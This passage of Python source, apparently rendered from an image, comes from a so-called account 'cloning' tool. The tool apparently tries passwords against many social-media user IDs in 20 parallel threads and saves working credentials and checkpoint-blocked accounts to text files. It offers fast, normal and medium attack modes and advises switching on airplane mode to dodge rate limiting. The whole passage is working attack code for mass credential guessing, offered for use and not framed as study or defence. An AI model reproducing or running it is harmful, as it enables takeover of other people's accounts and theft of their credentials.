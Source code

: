 				open('𝗥𝗔𝗝_Ok.txt','a').write('%s\n' % wrt)

				break

			elif 'checkpoint' in ses.cookies.get_dict():

				print('\r\033[1;37m[\033[1;31m𝗥J-CP\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))

				wrt = '%s - %s' % (user,pw)

				ok.append(wrt)

				open('cp.txt','a').write('%s\n' % wrt)

				break

			else:

				continue

		loop += 1

	def __pler__(self):

		os.system("clear")

		print(banner)

		print ("\033[1;37m [1] \033[1;36mMETHOD FAST ")

		print ("\033[1;37m [2] \033[1;36mMETHOD NORMEL ")

		print ("\033[1;37m [3] \033[1;36mMETHOD MEDIUM ")

		print(50*"\033[1;97m_")

		yan = input('\033[1;37m[+] \033[1;36mCHOOSE OPTION \033[1;31m: \033[1;32m')

		if yan == '':

			print('\Choose Error ')

			exit()

		elif yan in ('1', '01'):

			os.system("clear")

			print(banner)

			time.sleep(1)

			print('\033[1;37m[+]\033[1;33m FILE CLONING ONLY OK IDS ')

			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))

			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')

			print(50*"\033[1;97m_")

			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')

			print(50*"\033[1;97m_")

			with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):

